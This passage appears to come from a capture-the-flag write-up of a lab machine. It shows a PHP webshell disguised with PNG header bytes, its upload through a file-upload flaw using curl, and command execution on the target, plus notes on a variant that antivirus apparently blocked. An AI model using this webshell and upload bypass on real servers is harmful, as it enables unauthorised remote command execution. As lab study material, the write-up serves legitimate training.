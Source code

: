 I can do all of this with `curl`. First, I’ll create the webshell:

```

root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>' > shell.php.png 

```

Now, I’ll use `curl` to upload it with the following arguments:
- `-X POST` - sets the requests type to POST
- Include the `?id=0xdf` at the end of the url; the webshell will be renamed to that id
- `-F 'pupload=upload'` - first form field
- `-F 'file=@shell.php.png'` - second form field, with the value being the contents of the file `shell.php.png`

Because the file I’m uploading has a `.png` extension, `curl` will handle setting the content type header for me. Running this will return nothing:

```

root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell.php.png'

```

But then I can trigger the webshell:

```

root@kali# curl http://10.10.10.198:8080/upload/0xdf.php?cmd=whoami
PNG

buff\shaun

```

### Fighting with Defender

I did get stuck for a while when I tried to make my webshell using `system()` instead of `echo shell_exec()`. For some reason this fails on upload:

```

root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php system($_REQUEST["cmd"]); ?>' > shell_system.php.png
root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell_system.php.png' -x http://127.0.0.1:8080
<br />
<b>Warning</b>:  move_uploaded_file(C:\xampp\tmp\php60D2.tmp): failed to open stream: Invalid argument in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />
<br />
<b>Warning</b>:  move_uploaded_file(): Unable to move 'C:\xampp\tmp\php60D2.tmp' to 'upload/0xdf.php' in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />

```
